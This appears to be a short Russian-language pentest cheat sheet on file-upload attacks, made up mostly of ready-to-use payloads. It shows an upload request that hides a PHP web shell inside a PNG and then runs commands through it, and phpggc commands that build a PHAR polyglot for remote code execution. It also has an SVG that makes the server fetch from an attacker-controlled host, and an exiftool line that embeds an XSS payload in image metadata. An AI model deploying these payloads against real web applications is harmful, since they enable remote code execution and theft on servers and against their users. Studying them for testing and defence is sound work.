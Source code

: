 # Example: Upload File

## Upload -> RCE

Веб-приложение может проверять файл только по Content-Type\
Веб-приложение позволяет изменить фото в профиле пользователя, но при этом не проверяет должным образом обновленные изображения, в результате чего вместо загрузки фото можно загрузить php-файл и удаленно исполнить команду на сервере.

Пример: Запрос на загрузку файла: \
`Content-Disposition: form-data; name="file"; filename="image.php"` \
`Content-Type: image/png`\
``\
`%PNG .... IEND .. <?php system($_GET['blabla]); ?> -----------------WebKitFormBoundaryNJKDFNAJCNA`\


В ответ: \
`HTTP/1.1 200 OK`\
``\
`{"path": "/some/path/crooped.php", "error": 0}`

Следующий запрос: \
`GET /some/path/crooped.php?blabla=dir+C:\`

Получаем RCE :)

## Upload PHAR -> RCE

PHAR - это сериализованный или упакованный PHP код?

Проблема с php rce — надо чтобы скрипт заканчивался на .php

Однако, если у нас есть возможность заставить сервак обратиться по схеме phar:// к локальному файлу, который мы контролируем, то это может привести к исполнению кода

Пример: загружаем exploit.jpg, как аватар, который является PHAR-файлом

```
git clone https://github.com/ambionics/phpggc
$ cd ./phpggc
$ wget https://upload.wikimedia.org/wikipedia/en/a/a9/Example.jpg
$ ./phpggc -pj Example.jpg ZendFramework/RCE3 system 'ls -lah' > exploit.jpg
```

Теперь, если есть SSRF, например, то6 при обращении к `phar:///var/www/example.com/data/upload/image/exploit.jpg` исполнится наш код.

## SVG -> SSRF

```markup
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"> 
<image height="30" width="30" 
xlink:href="https://controlledserver.com/pic.svg" /> 
</svg>
```

## XSS Payload -> Image (PNG)

```
exiftool -Comment="\"><script>alert(prompt('Payload for XSS'))</script>" xss_comment_exif_metadata_double_quote.png
```

##
